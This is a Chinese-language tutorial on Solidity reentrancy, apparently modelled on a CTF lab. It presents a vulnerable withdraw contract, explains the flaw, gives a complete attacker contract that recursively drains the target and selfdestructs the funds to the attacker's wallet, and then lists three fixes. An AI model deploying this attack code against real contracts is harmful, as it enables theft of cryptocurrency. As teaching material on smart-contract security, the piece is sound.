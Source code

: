 # 一、重入攻击的影响
以太坊历史上影响最大的黑客攻击事件之一，the dao事件就是黑客利用漏洞进行的重入攻击，the dao事件导致the dao合约中的所有etc被盗，以太坊因此事件分叉为etc与eth
# 二、实例介绍
如下所示，Renentrace为目标合约，部署此合约后给合约中转账5eth，我们将利用重入攻击来将此合约中的eth全部取走

## 1. 目标合约
```
pragma solidity ^0.4.18;

/**
 * @title SafeMath
 * @dev Math operations with safety checks that throw on error
 */
library SafeMath {

  /**
  * @dev Multiplies two numbers, throws on overflow.
  */
  function mul(uint256 a, uint256 b) internal pure returns (uint256) {
    if (a == 0) {
      return 0;
    }
    uint256 c = a * b;
    assert(c / a == b);
    return c;
  }

  /**
  * @dev Integer division of two numbers, truncating the quotient.
  */
  function div(uint256 a, uint256 b) internal pure returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    // assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  /**
  * @dev Subtracts two numbers, throws on overflow (i.e. if subtrahend is greater than minuend).
  */
  function sub(uint256 a, uint256 b) internal pure returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  /**
  * @dev Adds two numbers, throws on overflow.
  */
  function add(uint256 a, uint256 b) internal pure returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

## 2.分析源码
```withdraw```函数中先判断```balances[msg.sender] >= _amount```，如果条件满足，通过```call```函数给```msg.sender```转账，转账完成后再对```balances[msg.sender]```减操作。
这里有四点组合形成一个漏洞：
1. 以```balances[msg.sender] >= _amount```为判断条件，满足则进行转账
2. 在转账时，如果收款地址是合约，则会触发该收款地址合约的```fallback```函数；而转账使用```call```函数时，默认没有```gas```限制，这样合约的```fallback```函数就会成功执行
3. 转账之后才对```balances[msg.sender]```减操作，导致可以在调用收款地址合约的```fallback```函数时，递归调用回```withdraw```函数，这时```msg.sender```虽然已经转帐一部分，但```balances[msg.sender]```的值还没有变化；这样就可以不断循环直到本合约资金全部转移到```msg.sender```；
4. 当递归转账完成后，多次执行语句```balances[msg.sender] -= _amount```进行减操作，由于转出数量实际大于用户账户余额，所以会下溢出，但不会异常，因为```solidity```是允许下溢出的，至此漏洞形成

## 3.攻击流程
### 3.1 根据漏洞编写攻击合约
```
pragma solidity ^0.5.0;
import './Reentrance.sol';

contract Reentrance {
    function donate(address _to) public payable;   
    function withdraw(uint _amount) public;
    function balanceOf(address _who) public view returns (uint balance);
}

contract Hacker {
    
    Reentrance r;
    uint public attackCount  = 0;
    
    constructor(address payable reentranceAddr) public{
        r = Reentrance(reentranceAddr);
    }
    
    function() payable external {
        attackCount++;
        uint b = address(r).balance;
        if(b>0){
            uint amount = b>r.balanceOf(address(this))?r.balanceOf(address(this)):b;
            r.withdraw(amount);
        }
    }
    
    function donate() public payable{
        r.donate.value(msg.value)(address(this));
    }
    
    function attack(uint amount) public {
        attackCount++;
        r.withdraw(amount* 1 ether);
    }
    
    function entranceBalance() public view returns(uint){
        return address(r).balance;
    }
    
    function hackBalance() public view returns(uint){
        return address(this).balance;
    }

    function kill(address payable beneficy) public {
        selfdestruct(beneficy);
    }
}
```
### 3.2 部署合约并转账5ETH
![](./reentrance1.jpeg)
### 3.3 部署攻击合约并使用攻击合约向目标合约存钱
由于需要满足条件```balances[msg.sender] >= _amount```才能取钱，所以需要先充钱，我们调用攻击合约donate充钱1eth 使得```balances[msg.sender] >= 1 ether```
![](./reentrance2.jpeg)
### 3.4 发动攻击
调用```attach(1)```即发起攻击，递归取钱后，发现Reentrance合约账户余额为0，攻击完成。
![](./reentrance3.jpeg)
### 3.5 将资金转到普通账户
调用```kill(黑客个人钱包地址)```杀死攻击合约，资金将会转到黑客个人钱包地址

## 4. 如何避免
三种方法均可：
### 方法1
使用send或transfer来转账，因为send和transfer转账时使用固定gas 2300， 如果攻击合约fallback函数中有递归，则会导致fallback函数执行失败或交易结束
### 方法2
先进行余额减操作再进行转账操作
### 方法3
当上方攻击完成后，查看```balanceOf(hacker合约地址)```会发现时一个很大的数，因为负溢出了，而solidity时允许负溢出而不异常的；
所以使用 SafeMath 进行余额减操作，当递归转账完成后进行余额减操作时就会异常，交易失败。
